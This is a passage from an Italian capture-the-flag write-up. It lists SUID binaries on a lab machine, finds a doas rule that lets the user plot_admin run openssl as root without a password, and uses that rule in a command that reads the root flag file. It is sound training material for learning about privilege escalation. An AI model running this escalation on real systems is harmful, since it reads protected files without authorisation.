 ```
/snap/core20/1169/usr/bin/chsh
/snap/core20/1169/usr/bin/gpasswd
/snap/core20/1169/usr/bin/mount
/snap/core20/1169/usr/bin/newgrp
/snap/core20/1169/usr/bin/passwd
/snap/core20/1169/usr/bin/su
/snap/core20/1169/usr/bin/sudo
/snap/core20/1169/usr/bin/umount
/snap/core20/1169/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1169/usr/lib/openssh/ssh-keysign
/snap/snapd/14549/usr/lib/snapd/snap-confine
/snap/snapd/13640/usr/lib/snapd/snap-confine
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/at
/usr/bin/chsh
/usr/bin/umount
/usr/bin/doas
/usr/bin/newgrp
/usr/libexec/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
plot_admin@plotted:~$ 
```

dopo un po di prove troviamo 
```
/usr/bin/doas
```
 è un sostituto del comando sudo sviluppato per i sistemi OpenBSD

la configurazione dei privilegi privilegi è scritta nel file `/etc/doas.conf`

```
cat /etc/doas.conf
```
troviamo scritto
```
permit nopass plot_admin as root cmd openssl
```

l'utente plot_admin può eseguire OpenSSL come root senza password

controlliamo come utilizzare il tutto su https://gtfobins.github.io/gtfobins/openssl/

la cosa più rapida per ottenere la flag è semplicemente leggerla senza complicarci la vita con ulteriori revshell
```
doas openssl enc -base64 -in /root/root.txt | base64 -d
```
